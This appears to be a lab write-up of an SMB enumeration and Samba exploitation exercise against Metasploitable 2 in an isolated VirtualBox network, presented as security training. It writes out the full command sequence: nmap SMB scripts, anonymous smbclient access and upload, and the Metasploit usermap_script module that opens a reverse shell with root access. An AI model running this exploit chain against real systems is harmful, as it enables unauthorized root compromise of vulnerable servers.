





# Metasploitable Lab 5 — SMB Enumeration and Samba Exploitation (Remote Root Access)

## Objective

The objective of this lab was to identify and enumerate SMB services on the target system, discover accessible shares and users, and exploit a vulnerable Samba service to achieve remote command execution and gain root-level access.

This lab demonstrates a direct remote exploitation path without requiring privilege escalation.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology

Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Nmap | Port scanning and SMB enumeration |
| smbclient | SMB share interaction |
| enum4linux | SMB user and share enumeration |
| Metasploit | Exploitation framework |

---

# Step 1 — SMB Service Identification

From targeted scanning:

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X  
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X  

This confirmed that SMB services were exposed on the target system and required further enumeration.

---

# Step 2 — SMB Enumeration

## Command Used

nmap -p 139,445 --script smb-os-discovery,smb-enum-shares,smb-enum-users 192.168.56.3

---

## Results (Key Findings)

### OS and Version Information

Unix (Samba 3.0.20-Debian)  
Computer name: metasploitable  
Domain: localdomain  

---

### Shares Discovered

ADMIN$  
IPC$  
opt  
print$  
tmp  

---

### High-Value Share Permissions

tmp → Anonymous READ/WRITE  
IPC$ → Anonymous READ/WRITE  

---

### User Enumeration

msfadmin  
user  
root  
www-data  

---

## Analysis

- Exact Samba version identified: Samba 3.0.20-Debian  
- Anonymous access enabled on writable shares  
- Multiple system users exposed  
- Strong indicators of misconfiguration and exploitable services  

---

# Step 3 — Manual SMB Share Enumeration

## Command Used

smbclient -L //192.168.56.3/ -N

---

## Result

Anonymous login successful  
Shares successfully listed  

---

## Accessing Writable Share

smbclient //192.168.56.3/tmp -N  

---

## Verification

ls  
pwd  

---

## Analysis

- Anonymous login confirmed  
- Writable /tmp directory accessible  
- System files present, indicating active system usage  
- Confirms ability to interact with target filesystem without authentication  

---

# Step 4 — File Upload Verification

## Command Used

echo "hello from kali" > test.txt  

---

## Upload via SMB

put test.txt  

---

## Verification

ls  

---

## Analysis

- File successfully uploaded to target  
- Confirms write capability to remote filesystem  
- Provides staging area for attacker-controlled files  
- Demonstrates risk of anonymous writable shares  

---

# Step 5 — Exploit Identification

## Key Finding

Samba 3.0.20-Debian  

---

## Analysis

This version of Samba is known to be vulnerable to the username map script command execution vulnerability, which allows remote attackers to execute arbitrary commands on the target system.

---

# Step 6 — Exploitation with Metasploit

## Commands Used

msfconsole  
search samba 3.0.20  
use exploit/multi/samba/usermap_script  
set RHOSTS 192.168.56.3  
set LHOST 192.168.56.2  
set LPORT 4444  
run  

---

## Result

Command shell session opened (192.168.56.2:4444 -> 192.168.56.3)  

---

## Analysis

- Exploit successfully executed against vulnerable Samba service  
- Reverse shell established from target to attacker  
- Remote command execution achieved  

---

# Step 7 — Validation of Access

## Commands Used

whoami  
id  
uname -a  

---

## Output

root  
uid=0(root) gid=0(root)  
Linux metasploitable  

---

## Analysis

- Shell obtained with root privileges  
- No privilege escalation required  
- Confirms that the Samba service was running as root  
- Full system compromise achieved immediately upon exploitation  

---

# Security Concepts Learned

This lab demonstrated several critical concepts:

- SMB Enumeration — Discovering shares, users, and system information  
- Anonymous Access Risks — Unauthenticated access to sensitive resources  
- Service Versioning — Mapping services to known vulnerabilities  
- Writable Share Abuse — Uploading files to remote systems without authentication  
- Remote Code Execution (RCE) — Exploiting vulnerable services for command execution  
- Metasploit Exploitation — Using modules and payloads effectively  
- Reverse Shells — Gaining remote interactive access  
- Privilege Context — Understanding how service permissions affect attack outcomes  

---

# Lessons Learned

- Enumeration is critical for identifying viable attack paths  
- Service version detection enables targeted and reliable exploitation  
- Misconfigured SMB shares significantly increase attack surface  
- Anonymous write access can lead to serious security risks  
- Exploiting services running as root results in immediate full compromise  
- Not all attacks require privilege escalation  
- Simple vulnerabilities can be more effective than complex exploit chains  

---

# Final Outcome

- SMB service identified and enumerated  
- Anonymous access to shares confirmed  
- Writable directory verified  
- Samba vulnerability identified and exploited  
- Reverse shell successfully established  
- Root access obtained directly without privilege escalation  